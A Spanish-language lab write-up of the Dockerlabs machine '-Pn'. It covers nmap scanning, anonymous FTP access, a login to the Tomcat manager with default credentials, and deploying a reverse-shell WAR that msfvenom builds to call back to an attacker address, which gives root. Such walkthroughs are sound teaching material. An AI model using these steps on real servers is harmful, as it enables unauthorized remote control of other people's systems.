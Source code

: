 # Writeup de la Máquina -Pn de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![Primer nmap](_images/Screenshot_1.png)

Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts del fichero donde se ha guardado el escaneo de nmap. 

```bash
extractPorts allPorts
```
![ExtractPorts](_images/Screenshot_2.png)

Teniendo los puertos copiados procedo a ejecutar un escaneo más profundo solo para los puertos 21 y 8080 con nmap.

```bash
sudo nmap -p21,8080 -sCV 172.17.0.2 -oN targeted
```

![Segundo Nmap](_images/Screenshot_3.png)

Al terminar el escaneo veo que tiene habilitado el usuario anonymous para hacer login en el servicio FTP. Así que procedo a connectarme y listar el conteidos

```bash
ftp 172.17.0.2
```
![FTP Connection](_images/Screenshot_4.png)

Una vez dentro observo que hay un archivo llamado tomcat.txt, este me lo bajo y miro su contenido.

![Tomcat](_images/Screenshot_5.png)

Este indica que se tiene que configurar el servidor tomcat que tiene pinta que se esta corriendo en puerto 8080. Para ver esto compruebo las tecnologias con whatweb.

```bash
whatweb http://172.17.0.2:8080
```
![whatweb](_images/Screenshot_6.png)

Efectivamente saca que es un servidor tomcat, sabiendo esto decido entrar a la interfaz web. En esta intento entrar al Tomcat Web Application Manager, para hacer esto entro a la url 172.17.0.2:8080/manager/html. Cuando intentas acceder te pide que inicies sesión con unas credenciales, así que procedo a buscar las credenciales por defecto de tomcat y con el usuario tomcat y la contraseña s3cr3t me permite entrar.

![Navegador](_images/Screenshot_7.png)
![Navegador 2](_images/Screenshot_8.png)
![Navegador 3](_images/Screenshot_9.png)
![Navegador 4](_images/Screenshot_10.png)
![Navegador 5](_images/Screenshot_11.png)

Una vez estando dentro creo con msfvenom una reverse shell en un archivo .war malicioso.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.76 -f war -o revshell.war
```
![Msfvenom](_images/Screenshot_20.png)

Una vez creado voy al apartado de desplegar un archivo war y selecciono la reverse shell que he creado anteriormente. Una vez desplegada me pongo en escucha en el puerto 443 con netcat y accedo a la url.

![Select](_images/Screenshot_21.png)
![Netcat](_images/Screenshot_23.png)
![Revshell](_images/Screenshot_22.png)

Una vez accedido a la url llega la shell a puerto 443 ya como el usuario root.

![root1](_images/Screenshot_24.png)
![root2](_images/Screenshot_25.png)
